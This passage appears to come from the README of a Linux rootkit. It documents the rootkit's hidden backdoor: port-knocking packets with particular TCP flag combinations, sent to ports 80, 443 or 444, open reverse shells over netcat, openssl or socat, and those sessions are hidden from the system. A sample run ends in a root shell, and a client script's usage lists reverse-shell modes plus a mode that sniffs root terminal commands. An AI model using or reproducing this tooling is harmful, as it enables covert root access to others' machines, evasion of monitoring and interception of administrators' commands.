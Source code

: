         But more important than the method we use to hijack, is what we do with the hijacking ;)

    2.4 Backdoors

        There exist many approaches to backdooring a system. I chose some
        popular ones because 1) they are popular and 2) they are reliable.

        Basically it consists of CUNT, FUCK and ASS port-knocking.
        For all of them one can use nping (part of nmap tool) to
        generate the desired packets.

        CUNT:   Cwr,Urg,fiN,rsT
        FUCK:   Fin,Urg,aCK
        ASS:    Ack,rSt,pSh

        Whereas CUNT, FUCK or ASS packets are to ports 80, 443 or 444
        will connect back to netcat, openssl s_server and socat sessions.

        Example with encrypted openssl reverse shell:

        ---snip---
        $ sudo ./bdclient.sh openssl 192.168.0.3 9999
        Using default temp DH parameters
        ACCEPT
        -----BEGIN SSL SESSION PARAMETERS-----
        .
        .
        .
        Secure Renegotiation IS supported
        /bin/sh: 0: can't access tty; job control turned off
        # id
        uid=0(root) gid=0(root) groups=0(root)
        #
        ---snip---

        There are no limits on how many simultaneous sessions are allowed.
        It is worth noting, tho, that exiting from one backdoor session, exits
        all sessions - this is so we make sure to not leave any session hanging
        behind. All backdoor sessions are properly hidden (and their
        children and sub-processes) but we don't want to give chance, a chance.

            2.4.1 Client script

            There is a simple script to facilitate: client/bdclient.sh

            ---snip---
             $ ./bdclient.sh
            Error: Missing parameter
            Use: [V=1] bdclient.sh <method> <IP> <PORT>

                Methods:
                    openssl:    OpenSSL encrypted connect-back shell
                    socat:      Socat encrypted connect-back shell
                    nc:         Netcat unencrypted connect-back shell
                    tty:        Encrypted non-interactive ROOT section sniffing
                                for remote root live terminal commands dump
